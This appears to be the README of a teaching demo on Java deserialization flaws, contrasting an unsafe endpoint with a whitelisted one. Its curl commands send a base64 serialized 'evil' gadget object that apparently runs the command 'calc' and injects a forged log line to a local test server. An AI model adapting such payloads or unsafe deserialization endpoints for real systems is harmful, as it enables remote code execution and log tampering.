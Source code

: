 # java-serialization-vuln-demo

http://127.0.0.1:8080/api/unsafe-deserialize-base64
http://127.0.0.1:8080/api/whitelist-deserialize-base64

# Payloads
## evil payload
```bash
curl -X POST -d "payload=rO0ABXNyADBjb20uc2hlbjE5OTEudnVsbi5zZXJpYWxpemF0aW9uLmJlYW5zLkdhZGdldEJlYW5y3rJGZPj-3gIAAkwAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0AARjYWxjdAA6eHh4eCANCjIwMjQtWFgtWFhUWFg6WFg6WFguMDAwKzA4OjAwICBJTkZPIFhYWFggLS0tIEhBQ0tFRA==" http://127.0.0.1:8080/api/unsafe-deserialize-base64

curl -X POST -d "payload=rO0ABXNyADBjb20uc2hlbjE5OTEudnVsbi5zZXJpYWxpemF0aW9uLmJlYW5zLkdhZGdldEJlYW5y3rJGZPj-3gIAAkwAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0AARjYWxjdAA6eHh4eCANCjIwMjQtWFgtWFhUWFg6WFg6WFguMDAwKzA4OjAwICBJTkZPIFhYWFggLS0tIEhBQ0tFRA==" http://127.0.0.1:8080/api/whitelist-deserialize-base64
```

## normal payload
```bash
curl -X POST -d "payload=rO0ABXNyAC5jb20uc2hlbjE5OTEudnVsbi5zZXJpYWxpemF0aW9uLmJlYW5zLlVzZXJCZWFuNJT1lLbj6e8CAAJMAAVmaXJzdHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wABGxhc3RxAH4AAXhwdAAKZmlyc3QgbmFtZXQACWxhc3QgbmFtZQ==" http://127.0.0.1:8080/api/unsafe-deserialize-base64

curl -X POST -d "payload=rO0ABXNyAC5jb20uc2hlbjE5OTEudnVsbi5zZXJpYWxpemF0aW9uLmJlYW5zLlVzZXJCZWFuNJT1lLbj6e8CAAJMAAVmaXJzdHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wABGxhc3RxAH4AAXhwdAAKZmlyc3QgbmFtZXQACWxhc3QgbmFtZQ==" http://127.0.0.1:8080/api/whitelist-deserialize-base64
```
